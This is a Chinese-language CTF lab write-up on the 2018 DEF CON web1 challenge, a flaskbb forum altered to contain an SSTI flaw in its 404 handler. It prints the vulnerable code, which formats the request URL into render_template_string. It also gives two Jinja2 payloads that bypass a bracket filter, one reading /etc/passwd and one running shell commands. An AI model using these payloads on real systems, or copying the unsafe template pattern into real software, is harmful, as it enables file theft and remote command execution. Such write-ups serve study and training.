


## 0x00  环境编译
```
docker-compose build
docker-compose up -d
```
该题是2018年Defcon对抗赛的web1，该网站用的是flaskbb搭建的，本身没有存在漏洞，开发人员通过修改了源代码造成了SSTI漏洞，现在凡是涉及Flask的安全问题几乎都会重点提及SSTI

漏洞源码在flasks/app.py文件中的375行开始
```
   375	    @app.errorhandler(404)
   376	    def page_not_found(error):
   377	        url = request.url
   378	        if '[' in url or ']' in url:
   379	            return "<h1>url error!</h1>"
   380
   381	        return render_template_string("<h1>URL %s  not found</h1><br/><p>Some programmers developed a forum program based on the foundation of flaskbb , but it cause some defects and bugs. Try to find it.</p><p>Notice that you should access the website with host \"<b>flaskweb.com</b>\" , please modify your hosts file or ADD this to HTTP header.</p>" % url), 404
```


## 0x01 漏洞利用

通过之前的代码显示，过滤了中括号，上网搜索了一下找到了绕过的payload
文件读取payload
```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}
```




命令执行payload
```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()}}
```




##  0x02 链接

[SSTI过滤绕过](http://p0sec.net/index.php/archives/120/)
[SSTI攻击分析](https://hellohxk.com/blog/ssti/)
[Flask jinja2模板注入思路总结](http://www.ee50.com/ld/940.html)


